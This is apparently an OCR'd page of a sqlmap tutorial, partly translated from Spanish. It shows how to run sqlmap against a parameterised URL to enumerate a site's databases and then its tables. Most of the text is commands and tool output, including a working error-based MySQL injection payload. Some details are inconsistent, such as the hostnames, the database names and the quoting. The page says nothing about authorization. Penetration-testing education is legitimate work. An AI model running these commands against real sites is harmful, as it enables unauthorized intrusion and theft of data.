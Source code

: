 `sqlmap.py -u" http://www.examplepage.com/something.php?id=1&id2=1&id3=1 "--dbs`

When we finish we will have the names of the databases, something like this:

```
[*] starting at 12:12:56

[12:12:56] [INFO] resuming back-end DBMS 'mysql' 
[12:12:57] [INFO] testing connection to the target url
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id3=1 AND (SELECT 1489 FROM(SELECT COUNT(*),CONCAT(0x3a73776c3a,(SELECT (CASE WHEN (1489=1489) THEN 1 ELSE 0 END)),0x3a7a76653a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
---
[12:13:00] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5
[12:13:00] [INFO] fetching database names
[12:13:00] [INFO] the SQL query used returns 2 entries
[12:13:00] [INFO] resumed: information_schema
[12:13:00] [INFO] resumed: nombre_DB
available databases [2]:
[*] information_schema
[*] nombre_DB
```

With this we have the databases, in this example we have `2`:

```
[*] information_schema
[*] nombre_DB
```

Now, we are going to enter the database `DB_name` and extract the name of the tables:

`sqlmap.py -u "http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1" -D nombre_DB --tables`

At the end of the scan we have something like this:

```
[11:55:18] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5
[11:55:18] [INFO] fetching tables for database: 'nombre_DB'
[11:55:19] [INFO] heuristics detected web page charset 'ascii'
[11:55:19] [INFO] the SQL query used returns 3 entries
[11:55:20] [INFO] retrieved: users
[11:55:21] [INFO] retrieved: another_table
[11:55:21] [INFO] retrieved: hello_am_another_table
```
